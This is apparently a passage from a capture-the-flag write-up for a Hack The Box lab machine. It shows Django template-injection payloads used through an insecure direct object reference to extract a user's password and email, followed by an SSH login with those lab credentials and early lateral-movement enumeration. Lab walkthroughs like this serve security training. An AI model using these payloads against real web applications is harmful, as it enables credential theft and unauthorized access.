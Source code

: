 ### Credential Extraction via SSTI
This showed registered usernames, but we needed passwords. Continuing testing on user posts, I found post ID 23 (a private post) (IDOR vuln) and tested `{{users.0.password}}`:

```html
<div class="likes-review-item"><a href="/profile/28"><img src="/media/PNG_transparency_demonstration_1.png" title="test mYd4rks1dEisH3re"></a></div>
```

We got a potential password! To identify the user, assuming `{{users.0.password}}` gives the password of user with index 0, I used `{{users.0.email}}`:

```html
<div class="likes-review-item">
        <a href="/profile/28">
        <img src="/media/PNG_transparency_demonstration_1.png" title="test mikey@hacknet.htb">
        </a>
</div>
```

**Credentials discovered:**
- **Username**: mikey  
- **Password**: mYd4rks1dEisH3re

## Initial Access

With SSH enabled, we tested these credentials:

```bash
ssh mikey@hacknet.htb
# Password: mYd4rks1dEisH3re

Linux hacknet 6.1.0-38-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.147-1 (2025-08-02) x86_64
Last login: Wed Sep 24 19:28:38 2025 from 10.10.15.54
mikey@hacknet:~$ ls
user.txt
```

**User flag obtained!**

## Lateral Movement: Django Cache Poisoning

### Privilege Analysis
```bash
sudo -l
# No sudo privileges for mikey

ls /home
# Discovered additional user: sandy
```

The current user `mikey` doesn't have sudo rights, so we need to find another path forward. We discovered another user named `sandy` on the system.
